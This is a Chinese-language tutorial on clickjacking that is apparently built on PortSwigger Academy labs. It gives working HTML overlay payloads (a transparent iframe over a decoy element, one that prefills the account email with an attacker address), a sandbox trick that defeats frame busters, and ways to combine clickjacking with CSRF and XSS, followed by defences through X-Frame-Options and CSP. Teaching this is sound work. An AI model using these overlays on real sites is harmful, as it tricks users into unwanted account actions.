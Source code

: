 # 点击劫持

## 介绍

点击劫持是一种基于界面的攻击。攻击者使用一个透明的、不可见的 ifiame ，覆盖在一个网页上，然后诱导用户在该网页操作，此时用户将在不知情的情况下，点击透明的 iframe 界面，通过调整 iframe 页面的位置，可以诱导用户恰好点击在 iframe 的一些功能性按钮上。

点击劫持和 CSRF 攻击非常类似，都是在用户不知情的情况下诱导用户完成一些动作，但是 CSRF 攻击是在用户不知情或不输入的情况下伪造整个请求，而点击劫持需要用户执行诸如按钮单击之类的操作

## 攻击

### 1. 如何构建基本的点击劫持攻击

```html
<style>
   iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    #decoy_website {
        position:absolute;
        top:450px;
        left:60px;
        z-index: 1;
    }
</style>
<div id="decoy_website" >Test me</div>
<iframe src="https://0a7100a004aa78f1c1e28fc00045007a.web-security-academy.net/my-account"></iframe>
```

攻击者使用上面代码间目标网站合并覆盖在诱饵网站上的 iframe 层，并使用 opacity 设置 iframe 的透明度，以及 z-index 设置 iframe 和网站层的堆叠顺序。

### 2. 使用预提表单输入的点击劫持

一些网站允许在提交之前使用 GET 参数预填充表单输入.

```html
<style>
   iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    #decoy_website {
        position:absolute;
        top:450px;
        left:60px;
        z-index: 1;
    }
</style>
<div id="decoy_website" >Test me</div>
<iframe src="https://0a7100a004aa78f1c1e28fc00045007a.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

### 3. Frame busting scripts

只要网站可以被陷害，点击劫持攻击就可能发生。 因此，预防技术基于限制网站的框架能力。 通过 Web 浏览器执行的常见客户端保护是使用 frame busting 或 frame breaking 脚本。 这些可以通过专有浏览器 JavaScript 附加组件或扩展程序（如 NoScript）来实现。 脚本通常经过精心设计，以便执行以下部分或全部行为：

* 检查并强制当前应用程序窗口是主窗口或顶层窗口，
* 使所有 Frame 可见，
* 防止点击不可见的 Frame，
* 拦截并向用户标记潜在的点击劫持攻击

Frame busting 技术通常是特定于浏览器和平台的，并且由于 HTML 的灵活性，它们通常可以被攻击者绕过。 由于 frame busters 是 JavaScript，因此浏览器的安全设置可能会阻止它们的运行，或者实际上浏览器甚至可能不支持 JavaScript。 攻击者针对帧破坏者的一种有效解决方法是使用 HTML5 iframe 沙盒属性。 当使用 allow-forms 或 allow-scripts 值设置并且省略 allow-top-navigation 值时，可以中和 frame buster 脚本，因为 iframe 无法检查它是否是顶部窗口：

```javascript
// sandbox="allow-forms" 或者 sandbox="allow-scripts"
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

### 4. 点击劫持和 DOM XSS 攻击结合

XSS 漏洞与 iframe 目标 URL 结合，以便用户单机按钮或链接，从而执行 DOM XSS 攻击

> [靶场](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss)

### 5. 多步点击劫持

攻击者对目标网站输入的操纵可能需要采取多项行动。例如，攻击者可能想要诱骗用户从零售网站购买商品，因此需要在下订单之前将商品添加到购物篮中。攻击者可以使用多个分区或 iframe 来实施这些操作。从攻击者的角度来看，此类攻击需要相当精确和谨慎，才能有效和隐蔽

### 6. 点击劫持3.0 触屏劫持

2010年9月，安全专家公布智能手机上的触屏劫持攻击。

一次触屏操作，可能会对应以下几个事件：

```xml
touchstart 手指触摸屏幕时发生
touchend 手指离开屏幕时发生
touchmove 手指滑动时发生
touchcancel 系统可取消touch事件
```

通过讲一个不可见的iframe覆盖到当前网页上，可以劫持用户的触屏操作。

而且手机上的屏幕空间有限，手机浏览器为了节约空间，甚至隐藏了地址栏，因此手机的视觉欺骗可能会更加容易实行。

## 防御

> 点击劫持是一种浏览器端行为，其成功与否取决于浏览器的攻击以及是否符合现行的网络标准和最佳实践。服务器端防止点击劫持是通过限定和传达对组件的使用约束来提供的，然而，保护的实施取决于浏览器的合规性和这些约束的执行
>
> 点击劫持是一种视觉上的欺骗，针对传统的点击攻击，一般时通过禁止跨域的iframe来规范的。

### 1. frame busting

我们可以利用JavaScript，禁止iframe嵌套

```javascript
if (top.location != location) {
	top.location = self.location;
}
```

但是这种frame busting也存在一些缺陷。由于他是用于JavaScript写的，控制能力不是特别强，是有办法绕过的。

斯坦福大学总结了一篇关于"攻击frame busting"，详细讲述了各种绕过frame busting的方法

> [链接](http://seclab.stanford.edu/websec/framebusting/)

### 2. X-Frame-Options

X-FRAME-OPTIONS是微软提出的一个http头，专门用来防御利用iframe嵌套的点击劫持攻击。并且在IE8、Firefox3.6、Chrome4以上的版本均能很好的支持。

它有三个可选值：

* DENY 拒绝任何域加载
* SAMEORIGIN 允许同源域下加载
* ALLOW-FROM origin 可以定义允许frame加载的页面地址

### 3. Content Security Policy ([CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy))

Content Security Policy ([CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)) 是一种检测和预防机制，可缓解 XSS 和点击劫持等攻击。CSP 通常在 Web 服务器中实现为以下形式的返回标头：

```html
Content-Security-Policy: policy
```

其中 policy 是由分号分隔的一串策略指令。CSP 向客户端浏览器提供有关允许的 Web 资源来源的信息，浏览器可以将这些信息应用于恶意行为的检测和拦截。

推荐的点击劫持保护是将该`frame-ancestors`指令合并到应用程序的内容安全策略中。该`frame-ancestors 'none'`指令在行为上类似于 X-Frame-Options`deny`指令。该`frame-ancestors 'self'`指令大致等同于 X-Frame-Options`sameorigin`指令。以下 CSP 仅将相同域的帧列入白名单：

```xml
Content-Security-Policy: frame-ancestors 'self';
```

或者，可以将框架限制为命名站点：

```xml
Content-Security-Policy: frame-ancestors normal-website.com;
```

## 配合

点击劫持相对于XSS与CSRF来说，因为需要诱使用户与页面产生交互行为，因此实施攻击的成本较高，但攻击者讲此漏洞利用在钓鱼、欺诈和流氓广告等方面。

### 点击劫持 & CSRF

点击劫持结合CRSF：通常的CRSF攻击由于同源策略、token等的原因，会攻击失败，但是点击劫持本就是在iframe中调用原网页，服务器会认为是用户在正确的页面做出了这些操作，可以通过点击劫持，去控制用户做那些csrf做不了的操作。

### 点击劫持 & XSS

点击劫持结合XSS: 反射性xss漏洞触发时会在页面url中存在恶意xss代码，目前谷歌浏览器等都会进行拦截或警告，但是如果利用点击劫持，控制用户做出点击触发js代码的操作，就不会触发浏览器的安全策略，将一个原本可能无关紧要的漏洞变的具备威胁。

## 参考

* [portswigger 学院](https://portswigger.net/web-security/clickjacking)
* [WEB 安全基础篇--点击劫持](https://www.freebuf.com/vuls/334446.html)
